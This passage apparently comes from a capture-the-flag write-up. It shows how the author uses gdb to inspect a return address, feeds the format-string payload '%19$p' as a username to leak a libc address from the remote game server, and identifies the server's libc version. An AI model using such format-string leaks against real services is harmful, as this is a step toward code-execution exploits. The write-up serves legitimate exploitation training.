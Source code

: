 One of the addresses, namely `0x00007ffff7e0a09b`, was `__libc_start_main_ret`:
 
```
gdb-peda$ x/gx 0x00007ffff7e0a09b
0x7ffff7e0a09b <__libc_start_main+235>:	0x4800015f0ee8c789
```

With the help of [this database](https://libc.blukat.me/) I was able to identify the libc version that is used on the
server. To do that I set the username to `%19$p` which would print the `__libc_start_main_ret`.

```
Your position:





         +-----+
         |     |
         |  X  |
         |     |
         +     +-----+
         |           |
         |           |
         |           |
         +     +-----+

0x7fd06dc71830


Enter your command:
> 
```

Now we know that `libc_2.23-0ubuntu10_amd64` is installed on the server.

![libc lookup](libc_lookup.png)
